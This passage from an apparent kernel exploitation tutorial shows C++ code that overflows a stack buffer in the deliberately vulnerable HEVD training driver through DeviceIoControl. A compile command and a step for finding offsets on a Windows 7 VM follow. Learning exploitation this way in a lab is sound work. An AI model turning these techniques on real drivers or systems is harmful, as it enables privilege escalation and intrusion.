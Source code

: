 ```c++

    if (!lpInBuffer) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] Created buffer of size: %lu\n", inBufferSize);

    // Set buffer to be full of 'A's, but make the last 4 bytes 
    // 'B' so we know if we have overflowed to the right place.
    memset(lpInBuffer, 'A', inBufferSize);
    memset(lpInBuffer + (inBufferSize - 4), 'B', 4);

    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
    
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        nullptr,
        0,
        &bytesReturned,
        nullptr
    );

    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);

    return 0;
}
```

Make sure to compile this for 32 bit Windows with the Visual Studio 2022 Developer Command Prompt.  The command is as follows:

```cmd
cl /D WIN32 triggerOverflow.cpp
```

## Find the offsets
Now it's time to install the driver on a VM, run our program against it, and figure out what the stack of the vulnerable function looks like.

Start up the Windows 7 VM that you have set up for kernel debugging and install the driver with the usual `sc` commands.
